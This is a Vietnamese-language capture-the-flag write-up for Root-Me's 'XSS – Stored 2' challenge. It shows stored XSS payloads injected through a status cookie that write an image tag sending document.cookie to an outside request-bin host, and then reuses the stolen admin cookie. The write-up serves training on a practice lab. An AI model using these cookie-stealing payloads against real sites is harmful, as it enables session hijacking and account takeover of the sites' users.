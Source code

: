 # WRITE UP

**Challenge:** [XSS – Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là **Status: invite** ở mỗi post.

<img src="./media/image1.png" style="width:6.5in;height:3.01458in" alt="Graphical user interface, text, website Description automatically generated" />

Check cookie của website thì thấy nó được handle dựa trên cookie này:

<img src="./media/image2.png" style="width:6.5in;height:3.21806in" alt="Graphical user interface Description automatically generated with medium confidence" />

Bỏ vào repeater và check thử thì thấy nó work:

<img src="./media/image3.png" style="width:6.5in;height:3.32153in" alt="Graphical user interface, text, application, email Description automatically generated" />

Ở đây, class “nh4ttruong” sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:

**Payload:** hehe"&gt;&lt;script&gt;alert(1)&lt;/script**&gt;**

<img src="./media/image4.png" style="width:6.5in;height:1.6125in" alt="Graphical user interface, text, application Description automatically generated" />

<img src="./media/image5.png" style="width:6.5in;height:1.97153in" alt="Graphical user interface, application, Teams Description automatically generated" />

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:

**Payload:** *"&gt;&lt;script&gt;document.write("&lt;img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/&gt;%22))&lt;/script&gt;*

Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

<img src="./media/image6.png" style="width:6.5in;height:2.94583in" alt="Graphical user interface, text, application Description automatically generated" />

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;” kết thúc bằng “ ”, do đó, rất có thể nó không link được đến cookie của admin

<img src="./media/image7.png" style="width:6.5in;height:2.06736in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

Để giải quyết điều này, ta thử sử dụng hàm REPLACE để xóa bỏ “ ” và chèn vào ký tự “&” để link các cookie với nhau:

**Payload:** *"&gt;&lt;script&gt;document.write("&lt;img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie.replace(%27 %27,%27&%27 ).concat(%22/&gt;%22))&lt;/script&gt;*

<img src="./media/image8.png" style="width:6.5in;height:2.50278in" alt="Graphical user interface, text, application Description automatically generated" />

Có **ADMIN\_COOKIE**, ta thay đổi vào cookie và get pass:

<img src="./media/image9.png" style="width:6.5in;height:3.91875in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image10.png" style="width:6.5in;height:3.24167in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
